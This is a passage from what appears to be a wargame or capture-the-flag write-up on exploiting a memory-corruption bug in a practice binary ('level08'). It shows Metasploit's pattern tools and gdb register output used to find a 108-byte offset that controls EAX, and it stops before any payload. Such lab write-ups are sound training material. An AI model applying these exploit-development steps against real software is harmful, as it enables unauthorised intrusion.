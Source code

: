 The line
```sh
   0x08048737 <+163>:	call   *%edx
```

is actually the call to the operator+. Using the pattern_create.rb from metasploit to create a pattern.

```sh
kgn@kali:~$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb 200Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

So lets try to make it crash

```sh
(gdb) r $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"')
Starting program: /levels/level08 $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"')

Program received signal SIGSEGV, Segmentation fault.
0x08048726 in main ()
(gdb) i r
eax            0x41366441	1094083649
ecx            0x0	0
edx            0x0	0
ebx            0x804a078	134520952
esp            0xbffffbd0	0xbffffbd0
ebp            0xbffffc08	0xbffffc08
esi            0x0	0
edi            0x0	0
eip            0x8048726	0x8048726 <main+146>
eflags         0x10202	[ IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb)
```

So it crashes but we do not get to overwrite EIP .. but EAX looks interesting ( 0x41366441 = A6dA ). Lets see how many bytes we have

```sh
kgn@kali:~$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb 0x41366441
[*] Exact match at offset 108
```

Lets test it
